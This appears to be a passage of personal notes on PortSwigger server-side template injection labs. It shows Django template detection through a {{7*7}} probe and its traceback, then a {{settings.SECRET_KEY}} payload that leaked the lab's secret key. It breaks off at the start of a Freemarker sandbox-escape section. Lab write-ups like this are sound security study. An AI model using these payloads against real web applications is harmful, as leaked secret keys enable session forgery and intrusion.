   ```

`need to study an object's behavior in the context of each distinct template before you find a way to exploit it.`

`can still leverage server-side template injection vulnerabilities for other high-severity exploits, such as [directory traversal](https://portswigger.net/web-security/file-path-traversal), to gain access to sensitive data.`



* From exploring this lab, saw products having  "Edit Template" Functionality

* Got they have -> Hurry! Only {{product.stock}} left of {{product.name}} at {{product.price}}

* I tried this -> aakash{{7*7}} -> Got error ->

  * ```
    
    
    Internal Server Error
    
    Traceback (most recent call last): File "<string>", line 11, in <module> File "/usr/lib/python2.7/dist-packages/django/template/base.py", line 191, in __init__ self.nodelist = self.compile_nodelist() File "/usr/lib/python2.7/dist-packages/django/template/base.py", line 230, in compile_nodelist return parser.parse() File "/usr/lib/python2.7/dist-packages/django/template/base.py", line 486, in parse raise self.error(token, e) django.template.exceptions.TemplateSyntaxError: Could not parse the remainder: '*7' from '7*7' 
    ```

* Mean they are using Django Template

* Now use -> 

  ```
  {{settings.SECRET_KEY}}
  
  Got -> 8ywunoxxgy43ti34ys906tpcyn3wko77
  ```

* 



References =>

`https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection`





#### 6. Server-side template injection in a sandboxed environment =>



* Freemarker template engine

* When i tried execution payloads i got ->

  * `Execute is not allowed in the template for security reasons`
  * `Can't use ?api, because the "api_builtin_enabled" configuration setting is false`

* I used this payload ->

  ```